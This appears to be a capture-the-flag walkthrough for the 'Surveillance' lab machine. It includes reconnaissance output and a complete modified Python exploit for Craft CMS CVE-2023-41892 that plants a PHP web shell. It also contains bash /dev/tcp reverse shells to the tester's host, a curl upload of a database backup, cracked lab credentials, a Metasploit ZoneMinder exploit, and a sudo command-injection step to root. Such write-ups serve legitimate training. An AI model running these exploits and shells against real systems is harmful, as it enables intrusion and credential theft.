






Discovery
nmap
sudo nmap -A -sV -sT -v -O -T4 -p- 10.10.11.245
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 96071cc6773e07a0cc6f2419744d570b (ECDSA)
|_ 256 0ba4c0cfe23b95aef6f5df7d0c88d6ce (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-title: Surveillance
|_http-favicon: Unknown favicon MD5: 0B7345BDDB34DAEE691A08BF633AE076
| http-methods:
|_ Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.18.0 (Ubuntu)subdomains
wfuzz -c -f sub-fighter -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://surveillance.htb" -H "Host: FUZZ.surveillance.htb" --hl 7
NONEnikto
nikto -h http://surveillance.htb/ -C All
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP: 10.10.11.245
+ Target Hostname: surveillance.htb
+ Target Port: 80
+ Start Time: 2023-12-11 14:58:41 (GMT1)
---------------------------------------------------------------------------
+ Server: nginx/1.18.0 (Ubuntu)
+ /: Retrieved x-powered-by header: Craft CMS.
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ nginx/1.18.0 appears to be outdated (current is at least 1.20.1).
+ /web.config: ASP config file is accessible.
+ /.htaccess: Contains configuration and/or authorization information.
+ 8747 requests: 0 error(s) and 6 item(s) reported on remote host
+ End Time: 2023-12-11 15:21:29 (GMT1) (1368 seconds)
---------------------------------------------------------------------------
+ 1 host(s) testedferoxbuster
feroxbuster --url http://surveillance.htb/ --depth 2 --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -C 503
404 GET 63l 222w -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301 GET 7l 12w 178c http://surveillance.htb/images => http://surveillance.htb/images/
200 GET 1l 0w 1c http://surveillance.htb/index
301 GET 7l 12w 178c http://surveillance.htb/img => http://surveillance.htb/img/
200 GET 105l 782w 62695c http://surveillance.htb/images/w2.png
200 GET 913l 1800w 17439c http://surveillance.htb/css/style.css
200 GET 108l 201w 1870c http://surveillance.htb/css/responsive.css
200 GET 46l 97w 1008c http://surveillance.htb/js/custom.js
200 GET 56l 237w 22629c http://surveillance.htb/images/w3.png
200 GET 42l 243w 24617c http://surveillance.htb/images/s3.png
200 GET 42l 310w 32876c http://surveillance.htb/images/favicon.png
200 GET 114l 552w 42779c http://surveillance.htb/images/s2.png
200 GET 4l 66w 31000c http://surveillance.htb/css/font-awesome.min.css
200 GET 148l 770w 71008c http://surveillance.htb/images/c2.jpg
200 GET 195l 842w 69222c http://surveillance.htb/images/w1.png
200 GET 42l 310w 32876c http://surveillance.htb/images/home.png
200 GET 109l 602w 50641c http://surveillance.htb/images/s1.png
200 GET 2l 1276w 88145c http://surveillance.htb/js/jquery-3.4.1.min.js
200 GET 89l 964w 72118c http://surveillance.htb/images/hero-bg.png
200 GET 238l 1140w 90858c http://surveillance.htb/images/c1.jpg
200 GET 764l 3911w 284781c http://surveillance.htb/images/why-bg.jpg
200 GET 10038l 19587w 192348c http://surveillance.htb/css/bootstrap.css
200 GET 4436l 10973w 136569c http://surveillance.htb/js/bootstrap.js
200 GET 1518l 8174w 619758c http://surveillance.htb/images/slider-img.png
200 GET 783l 4077w 330169c http://surveillance.htb/images/about-img.png
200 GET 475l 1185w 16230c http://surveillance.htb/
302 GET 0l 0w 0c http://surveillance.htb/admin => http://surveillance.htb/admin/login
301 GET 7l 12w 178c http://surveillance.htb/css => http://surveillance.htb/css/
301 GET 7l 12w 178c http://surveillance.htb/js => http://surveillance.htb/js/
302 GET 0l 0w 0c http://surveillance.htb/logout => http://surveillance.htb/web
http://surveillance.htb/admin

→ Using craft cms
Initial foothold
1: Craft CMS code injection CVE-2023-41892
Craftcms Craft Cms : Security vulnerabilities, CVEs - Security vulnerabilities of Craftcms Craft Cms : List of vulnerabilities affecting any version of this product
- Check if vulnerable using burp
Craft CMS Remote Code Execution Vulnerability (CVE-2023-41892) - Craft CMS is vulnerable to a security vulnerability that may allow an attacker to perform remote code execution on successful exploitation. Tracked as CVE-2023-41892, the vulnerability has been given a critical severity with a CVSS score of 9.8.
request
GET /index.php HTTP/1.1 Host: surveillance.htb User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate, br Connection: close Cookie: CRAFT_CSRF_TOKEN=65144bc8076b4b427136129f2937551cfd49edd9f4dc88603fcf73be69aca2f3a%3A2%3A%7Bi%3A0%3Bs%3A16%3A%22CRAFT_CSRF_TOKEN%22%3Bi%3A1%3Bs%3A40%3A%22se87v8J4oUAa-DMOxR-b4KzrjLOvpsTmkE5A5-XD%22%3B%7D; CraftSessionId=05vsga5mo16oh1404u1bn9hvce Upgrade-Insecure-Requests: 1 Content-Length: 234 action=conditions/render&test[userCondition]=craft\elements\conditions\users\UserCondition&config={"name":"test[userCondition]","as xyz":{"class":"\\GuzzleHttp\\Psr7\\FnStream","__construct()": [{"close":null}],"_fn_close":"phpinfo"}}response
HTTP/1.1 200 OK ... <title>PHP 8.1.2-1ubuntu2.14 - phpinfo()</title> ... - Found a POC which I had to modify in order to work
Modified version
import requests import re import sys headers = { "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.88 Safari/537.36" } def writePayloadToTempFile(documentRoot): data = { "action": "conditions/render", "configObject[class]": "craft\elements\conditions\ElementCondition", "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"msl:/etc/passwd"}}}' } files = { "image1": ("pwn1.msl", """<?xml version="1.0" encoding="UTF-8"?> <image> <read filename="caption:<?php @system(@$_REQUEST['cmd']); ?>"/> <write filename="info:DOCUMENTROOT/cpresources/shell.php"> </image>""".replace("DOCUMENTROOT", documentRoot), "text/plain") } response = requests.post(url, headers=headers, data=data, files=files) def getTmpUploadDirAndDocumentRoot(): data = { "action": "conditions/render", "configObject[class]": "craft\elements\conditions\ElementCondition", "config": r'{"name":"configObject","as ":{"class":"\\GuzzleHttp\\Psr7\\FnStream", "__construct()":{"methods":{"close":"phpinfo"}}}}' } response = requests.post(url, headers=headers, data=data) pattern1 = r'<tr><td class="e">upload_tmp_dir<\/td><td class="v">(.*?)<\/td><td class="v">(.*?)<\/td><\/tr>' pattern2 = r'<tr><td class="e">\$_SERVER\[\'DOCUMENT_ROOT\'\]<\/td><td class="v">([^<]+)<\/td><\/tr>' match1 = re.search(pattern1, response.text, re.DOTALL) match2 = re.search(pattern2, response.text, re.DOTALL) return match1.group(1), match2.group(1) def trigerImagick(tmpDir): data = { "action": "conditions/render", "configObject[class]": "craft\elements\conditions\ElementCondition", "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"vid:msl:' + tmpDir + r'/php*"}}}' } response = requests.post(url, headers=headers, data=data) def shell(cmd): response = requests.get(url + "/cpresources/shell.php", params={"cmd": cmd}) match = re.search(r'caption:(.*?)CAPTION', response.text, re.DOTALL) if match: extracted_text = match.group(1).strip() print(extracted_text) else: return None return extracted_text if __name__ == "__main__": if(len(sys.argv) != 2): print("Usage: python CVE-2023-41892.py <url>") exit() else: url = sys.argv[1] print("[-] Get temporary folder and document root ...") upload_tmp_dir, documentRoot = getTmpUploadDirAndDocumentRoot() tmpDir = "/tmp" if "no value" in upload_tmp_dir else upload_tmp_dir print("[-] Write payload to temporary file ...") try: writePayloadToTempFile(documentRoot) except requests.exceptions.ConnectionError as e: print("[-] Crash the php process and write temp file successfully") print("[-] Trigger imagick to write shell ...") try: trigerImagick(tmpDir) except: pass print("[-] Done, enjoy the shell") while True: cmd = input("$ ") shell(cmd)Diff command (Removed proxy)
< response = requests.post(url, headers=headers, data=data, proxies={"http": "http://127.0.0.1:8080"}) --- > response = requests.post(url, headers=headers, data=data) - Execute shell:
python3 cve.py http://surveillance.htb/
- Get full TTY
# start listener nc -lvp 4444 # Execute reverse bash shell bash -c 'exec bash -i &>/dev/tcp/10.10.16.6/4444 <&1' # Full TTY - From Hacktricks python3 -c 'import pty; pty.spawn("/bin/bash")' CTRL+Z stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
2: Get user
- Found backup file:
www-data@surveillance:~/html/craft/storage/backups$ ls surveillance--2023-10-17-202801--v4.4.14.sql.zip - Download file
python2.7 ../../upload.py 88 curl -X POST -F "file=@surveillance--2023-10-17-202801--v4.4.14.sql.zip" http://10.10.16.6:88/ - Contains a .sql file, and contains a line with his hashed password
INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec','2023-10-17 20:22:34',NULL,NULL,NULL,'2023-10-11 18:58:57',NULL,1,NULL,NULL,NULL,0,'2023-10-17 20:27:46','2023-10-11 17:57:16','2023-10-17 20:27:46'); - Identify & crack the hash
Decrypt MD5, SHA1, MySQL, NTLM, SHA256, MD5 Email, SHA256 Email, SHA512, Wordpress, Bcrypt hashes for free online - Decrypt and crack your MD5, SHA1, SHA256, MySQL, MD5 Email, SHA256 Email, and NTLM hashes for free online. We also support Bcrypt, SHA512, Wordpress and many more.
Algorithm →
SHA256Credentials → matthew:starcraft122490
- Try ssh → we have access

Priv escalation
Linpeas
ZoneMinder DB credentials
-rw-r--r-- 1 root zoneminder 3503 Oct 17 11:32 /usr/share/zoneminder/www/api/app/Config/database.php
public $test = array(
'datasource' => 'Database/Mysql',
'persistent' => false,
'host' => 'localhost',
'login' => 'zmuser',
'password' => 'ZoneMinderPassword2023',
'database' => 'zm',
'prefix' => '',
//'encoding' => 'utf8',
);Craft DB credentials
-rw-r--r-- 1 www-data www-data 836 Oct 21 18:32 /var/www/html/craft/.env
CRAFT_APP_ID=CraftCMS--070c5b0b-ee27-4e50-acdf-0436a93ca4c7
CRAFT_ENVIRONMENT=production
CRAFT_SECURITY_KEY=2HfILL3OAEe5X0jzYOVY5i7uUizKmB2_
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=craftdb
CRAFT_DB_USER=craftuser
CRAFT_DB_PASSWORD=CraftCMSPassword2023!
CRAFT_DB_SCHEMA=
CRAFT_DB_TABLE_PREFIX=
DEV_MODE=false
ALLOW_ADMIN_CHANGES=false
DISALLOW_ROBOTS=false
PRIMARY_SITE_URL=http://surveillance.htb/MySql
craftdb
mysql -u craftuser -p -D craftdb
show tables;
+----------------------------+
| Tables_in_craftdb |
+----------------------------+
| addresses |
| announcements |
| assetindexdata |
| assetindexingsessions |
| assets |
| categories |
| categorygroups |
| categorygroups_sites |
| changedattributes |
| changedfields |
| content |
| craftidtokens |
| deprecationerrors |
| drafts |
| elements |
| elements_sites |
| entries |
| entrytypes |
| fieldgroups |
| fieldlayoutfields |
| fieldlayouts |
| fieldlayouttabs |
| fields |
| globalsets |
| gqlschemas |
| gqltokens |
| imagetransformindex |
| imagetransforms |
| info |
| matrixblocks |
| matrixblocks_owners |
| matrixblocktypes |
| migrations |
| plugins |
| projectconfig |
| queue |
| relations |
| resourcepaths |
| revisions |
| searchindex |
| sections |
| sections_sites |
| sequences |
| sessions |
| shunnedmessages |
| sitegroups |
| sites |
| structureelements |
| structures |
| systemmessages |
| taggroups |
| tags |
| tokens |
| usergroups |
| usergroups_users |
| userpermissions |
| userpermissions_usergroups |
| userpermissions_users |
| userpreferences |
| users |
| volumefolders |
| volumes |
| widgets |
+----------------------------+select username,password from users;
+----------+--------------------------------------------------------------+
| username | password |
+----------+--------------------------------------------------------------+
| admin | $2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe |
+----------+--------------------------------------------------------------+crack admin hash
hashcat -m 3200 '$2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe' /usr/share/wordlists/rockyou.txt→ too hard to crack
zm
mysql -u zmuser -p -D zm
show tables;
+-----------------+
| Tables_in_zm |
+-----------------+
| Config |
| ControlPresets |
| Controls |
| Devices |
| Event_Summaries |
| Events |
| Events_Archived |
| Events_Day |
| Events_Hour |
| Events_Month |
| Events_Week |
| Filters |
| Frames |
| Groups |
| Groups_Monitors |
| Logs |
| Manufacturers |
| Maps |
| Models |
| MonitorPresets |
| Monitor_Status |
| Monitors |
| MontageLayouts |
| Servers |
| Sessions |
| Snapshot_Events |
| Snapshots |
| States |
| Stats |
| Storage |
| TriggersX10 |
| Users |
| ZonePresets |
| Zones |
+-----------------+select username,password from Users;
+----------+--------------------------------------------------------------+
| username | password |
+----------+--------------------------------------------------------------+
| admin | $2y$10$BuFy0QTupRjSWW6kEAlBCO6AlZ8ZPGDI8Xba5pi/gLr2ap86dxYd. |
+----------+--------------------------------------------------------------+crack admin hash
hashcat -m 3200 '$2y$10$BuFy0QTupRjSWW6kEAlBCO6AlZ8ZPGDI8Xba5pi/gLr2ap86dxYd.' /usr/share/wordlists/rockyou.txt→ too hard to crack
Zoneminder
- Enumerate network information
matthew@surveillance:~$ netstat -tulpn Active Internet connections (only servers) Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN - tcp 0 0 0.0.0.0:80 0.0.0.0:* LISTEN - tcp 0 0 127.0.0.1:3306 0.0.0.0:* LISTEN - tcp 0 0 127.0.0.53:53 0.0.0.0:* LISTEN - tcp 0 0 127.0.0.1:8080 0.0.0.0:* LISTEN - tcp6 0 0 :::22 :::* LISTEN - udp 0 0 127.0.0.53:53 0.0.0.0:* - udp 0 0 0.0.0.0:68 0.0.0.0:* -- Interesting
- 3306
- 8080
- Interesting
- Reverse portforward using chisel
# On victim ./chisel client 10.10.16.6:9999 R:3333:localhost:8080 # On my machine (kali) ./chisel_arm server -p 9999 --reverse - New login panel available

The header is “ZoneMinder” → the name of the other userfolder in /home
nikto
- Nikto v2.5.0 --------------------------------------------------------------------------- + Target IP: 127.0.0.1 + Target Hostname: 127.0.0.1 + Target Port: 3333 + Start Time: 2023-12-11 17:58:17 (GMT1) --------------------------------------------------------------------------- + Server: nginx/1.18.0 (Ubuntu) + /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Header + /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a diffe. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/ + /: Cookie zmSkin created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies + /: Cookie zmCSS created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies + No CGI Directories found (use '-C all' to force check all possible dirs) + nginx/1.18.0 appears to be outdated (current is at least 1.20.1). + /#wp-config.php#: #wp-config.php# file found. This file contains the credentials. + 8075 requests: 0 error(s) and 6 item(s) reported on remote host + End Time: 2023-12-11 18:12:09 (GMT1) (832 seconds)feroxbuster
404 GET 7l 12w 162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter 301 GET 7l 12w 178c http://127.0.0.1:3333/graphics => http://127.0.0.1:8080/graphics/ 200 GET 11l 374w 10220c http://127.0.0.1:3333/skins/classic/js/chosen/chosen.min.css 301 GET 7l 12w 178c http://127.0.0.1:3333/skins/classic => http://127.0.0.1:8080/skins/classic/ 200 GET 30l 187w 1945c http://127.0.0.1:3333/skins/classic/js/dateTimePicker/jquery-ui-timepicker-addon.css 200 GET 77l 301w 1960c http://127.0.0.1:3333/css/reset.css 200 GET 5l 260w 15560c http://127.0.0.1:3333/skins/classic/js/jquery-ui-1.13.2/jquery-ui.structure.min.css 200 GET 94l 649w 42622c http://127.0.0.1:3333/skins/classic/js/tableExport.min.js 200 GET 10l 613w 27889c http://127.0.0.1:3333/skins/classic/js/bootstrap-table-export.min.js 200 GET 2l 1293w 89664c http://127.0.0.1:3333/skins/classic/js/jquery.min.js 200 GET 48l 78w 661c http://127.0.0.1:3333/skins/classic/css/base/views/login.css 200 GET 10l 1694w 120348c http://127.0.0.1:3333/skins/classic/js/bootstrap-table.min.js 200 GET 193l 799w 6820c http://127.0.0.1:3333/includes/csrf/csrf-magic.js 301 GET 7l 12w 178c http://127.0.0.1:3333/skins => http://127.0.0.1:8080/skins/ 200 GET 7033l 23033w 229201c http://127.0.0.1:3333/skins/classic/js/bootstrap.min.js 200 GET 202l 804w 6577c http://127.0.0.1:3333/js/logger.js 200 GET 40l 155w 1268c http://127.0.0.1:3333/js/Server.js 200 GET 10l 50w 644c http://127.0.0.1:3333/css/bootstrap-table-page-jump-to.min.css 200 GET 1l 2w 438c http://127.0.0.1:3333/graphics/favicon.ico 200 GET 48l 165w 1205c http://127.0.0.1:3333/js/ajaxQueue.js 200 GET 5l 17w 151c http://127.0.0.1:3333/skins/classic/views/js/login.js 200 GET 10l 307w 9091c http://127.0.0.1:3333/css/bootstrap-table.min.css 200 GET 959l 3190w 29993c http://127.0.0.1:3333/skins/classic/js/skin.js 200 GET 816l 1590w 13345c http://127.0.0.1:3333/skins/classic/css/base/skin.css 200 GET 5l 290w 13891c http://127.0.0.1:3333/skins/classic/js/jquery-ui-1.13.2/jquery-ui.theme.min.css 200 GET 10l 366w 15029c http://127.0.0.1:3333/skins/classic/js/bootstrap-table-auto-refresh.min.js 200 GET 3l 257w 29121c http://127.0.0.1:3333/skins/classic/js/chosen/chosen.jquery.min.js 200 GET 4l 66w 31000c http://127.0.0.1:3333/css/font-awesome.min.css 200 GET 10l 761w 34638c http://127.0.0.1:3333/skins/classic/js/bootstrap-table-cookie.min.js 200 GET 10l 853w 30764c http://127.0.0.1:3333/skins/classic/js/bootstrap-table-toolbar.min.js 200 GET 2291l 8530w 78475c http://127.0.0.1:3333/skins/classic/js/dateTimePicker/jquery-ui-timepicker-addon.js 200 GET 7l 820w 35415c http://127.0.0.1:3333/skins/classic/js/moment.min.js 200 GET 10l 2887w 121530c http://127.0.0.1:3333/skins/classic/js/bootstrap-table-locale-all.min.js 200 GET 6l 2099w 160358c http://127.0.0.1:3333/css/bootstrap.min.css 200 GET 6l 1657w 255084c http://127.0.0.1:3333/skins/classic/js/jquery-ui-1.13.2/jquery-ui.min.js 200 GET 10l 353w 13431c http://127.0.0.1:3333/skins/classic/js/bootstrap-table-page-jump-to.min.js 200 GET 187l 572w 7716c http://127.0.0.1:3333/index.php 200 GET 187l 572w 7716c http://127.0.0.1:3333/ 301 GET 7l 12w 178c http://127.0.0.1:3333/css => http://127.0.0.1:8080/css/ 301 GET 7l 12w 178c http://127.0.0.1:3333/ajax => http://127.0.0.1:8080/ajax/ 301 GET 7l 12w 178c http://127.0.0.1:3333/includes => http://127.0.0.1:8080/includes/ 301 GET 7l 12w 178c http://127.0.0.1:3333/js => http://127.0.0.1:8080/js/ 301 GET 7l 12w 178c http://127.0.0.1:3333/api => http://127.0.0.1:8080/api/ 301 GET 7l 12w 178c http://127.0.0.1:3333/lang => http://127.0.0.1:8080/lang/ 301 GET 7l 12w 178c http://127.0.0.1:3333/vendor => http://127.0.0.1:8080/vendor/ 301 GET 7l 12w 178c http://127.0.0.1:3333/fonts => http://127.0.0.1:8080/fonts/ 301 GET 7l 12w 178c http://127.0.0.1:3333/views => http://127.0.0.1:8080/views/CVE-2023-26035 - obtain user zoneminder
Exploit for ZoneMinder Snapshots Command Injection CVE-2023-26035
- run metasploit module
use exploit/unix/webapp/zoneminder_snapshots set rhosts 127.0.0.1 set rport 3333 set fetch_srvport 5555 set lhost 10.10.16.6 set targeturi / run - Reverse shell as user zoneminder

- Upgrade php shell to bash
bash -c 'exec bash -i &>/dev/tcp/10.10.16.6/7777 <&1' python3 -c 'import pty; pty.spawn("/bin/bash")' CTRL+Z stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset; - run linpeas, found interesting sudo privs
Matching Defaults entries for zoneminder on surveillance: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty User zoneminder may run the following commands on surveillance: (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *zoneminder@surveillance:~$ ls -al /usr/bin/zm[a-zA-Z]*.pl * -rwxr-xr-x 1 root root 43027 Nov 23 2022 /usr/bin/zmaudit.pl -rwxr-xr-x 1 root root 12939 Nov 23 2022 /usr/bin/zmcamtool.pl -rwxr-xr-x 1 root root 6043 Nov 23 2022 /usr/bin/zmcontrol.pl -rwxr-xr-x 1 root root 26232 Nov 23 2022 /usr/bin/zmdc.pl -rwxr-xr-x 1 root root 35206 Nov 23 2022 /usr/bin/zmfilter.pl -rwxr-xr-x 1 root root 5640 Nov 23 2022 /usr/bin/zmonvif-probe.pl -rwxr-xr-x 1 root root 19386 Nov 23 2022 /usr/bin/zmonvif-trigger.pl -rwxr-xr-x 1 root root 13994 Nov 23 2022 /usr/bin/zmpkg.pl -rwxr-xr-x 1 root root 17492 Nov 23 2022 /usr/bin/zmrecover.pl -rwxr-xr-x 1 root root 4815 Nov 23 2022 /usr/bin/zmstats.pl -rwxr-xr-x 1 root root 2133 Nov 23 2022 /usr/bin/zmsystemctl.pl -rwxr-xr-x 1 root root 13111 Nov 23 2022 /usr/bin/zmtelemetry.pl -rwxr-xr-x 1 root root 5340 Nov 23 2022 /usr/bin/zmtrack.pl -rwxr-xr-x 1 root root 18482 Nov 23 2022 /usr/bin/zmtrigger.pl -rwxr-xr-x 1 root root 45421 Nov 23 2022 /usr/bin/zmupdate.pl -rwxr-xr-x 1 root root 8205 Nov 23 2022 /usr/bin/zmvideo.pl -rwxr-xr-x 1 root root 7022 Nov 23 2022 /usr/bin/zmwatch.pl -rwxr-xr-x 1 root root 19655 Nov 23 2022 /usr/bin/zmx10.pl -rwxr-xr-x 1 zoneminder zoneminder 847834 Dec 11 19:36 lp
To root
- Create reverse shell script in
/tmp/root.sh!/bin/bash bash -c 'exec bash -i &>/dev/tcp/10.10.16.6/8888 <&1' - start listener on port 8888 and execute shell
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/root.sh)' - Got root! 🙂

Found flag → 421baa0a61119695d883341b2e6b3101
- run metasploit module